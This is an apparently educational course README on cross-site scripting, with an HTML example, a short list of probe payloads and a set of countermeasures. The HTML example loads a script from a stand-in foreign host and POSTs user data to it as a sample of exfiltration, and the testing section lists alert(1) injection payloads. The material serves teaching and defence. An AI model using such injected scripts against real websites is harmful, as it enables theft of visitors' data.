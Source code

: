 # Cross Site Scripting (XSS)

Cross-site scripting (XSS) attacks are a type of injection in which malicious scripts are injected into otherwise benign and trusted websites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser-side script, to a different end user. Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application uses input from a user within the output it generates without validating or encoding it.

## Software Engineering Course Specifications

_"Cross-site scripting (XSS) involves injecting malicious code into an otherwise safe website. It is usually done through user input that is not sufficiently sanitised before being processed and stored on the server._  
_Students should be able to interpret fragments of JavaScript related to cross-site scripting."_

Either the malicious code was inserted into the code base because it was accidentally inserted without [code reviews](../security_testing_approaches/README.md#Code_review) or an internal threat actor has intentionally inserted it, or an SQL/XXS code injection vulnerability has been exploited to insert it. Students should be able to identify that an script referring to a foreign context has been executed or that a POST request has been made to an unknown URL.

```html
<html>
  <head>
    <title>Welcome to yourWebsite</title>
    <link href="http://yourwebsite.com/favicon.png" />
  </head>
  <body>
    <h1>Your Website</h1>
    <script src="http://www.randomUrl.com/danger.js"></script>

    or

    <script>
      const response = fetch("http://www.randomUrl.com", {
        method: "POST",
        headers: {
          "Content-Type": "application/json; charset=UTF-8",
        },
        body: JSON.stringify(yourData),
      });
    </script>
  </body>
</html>
```

## How to penetrate test for this vulnerability

To use these scripts, paste them into any input boxes or after the URL in the browser address bar and see what gets executed or saved to the HTML.

- `<script>alert(1)</script>`
- `<img src=x onload(alert(1))>`
- `<svg onload=alert(1)>`
- `<iframe src="javascript:alert(1)"></iframe>`

## How to countermeasure this vulnerability

1. Regular [code reviews](../security_testing_approaches/README.md#Code_review)
2. Only known and secure third-party libraries should be externally linked. Preferably, after a code review, third-party libraries should be locally served.
3. Monitor 3rd party libraries for known vulnerabilities and, on discovery, patch the vulnerabilities.
4. Implement [Defensive data handling](../defensive_data_handling/README.md).
5. Declare the language `<html lang="en">`.
6. Declare charset `<meta charset="utf-8">`.
7. Implement a [Content Security Policy (CSP)](../content_security_policy/README.md) Blocking `<SVG>` and `<SCRIPT>` tags.
